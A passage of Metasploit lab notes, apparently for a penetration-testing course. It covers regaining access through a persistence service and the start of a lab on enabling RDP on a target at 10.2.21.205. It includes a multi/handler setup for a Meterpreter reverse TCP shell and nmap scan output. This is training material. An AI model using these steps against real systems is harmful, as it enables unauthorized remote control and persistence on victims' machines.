 ```bash
exit

# Kill all sessions
sessions -K
sessions
	# No active sessions.
```

- Regain access to the system

```bash
use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

------

## Lab 7 - [Enabling RDP](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

> 🔬 [Windows: Enabling Remote Desktop](https://attackdefense.com/challengedetails?cid=1958)
>
> - Target IP: `10.2.21.205`
> - Enable **RDP** on the target machine on port **`3389`**

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.21.205
setg RHOST 10.2.21.205
workspace -a RDP
db_nmap -sV 10.2.21.205
```

```bash
80/tcp    open  http         BadBlue httpd 2.7
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49175/tcp open  msrpc        Microsoft Windows RPC

# RDP 3389 is disabled
```
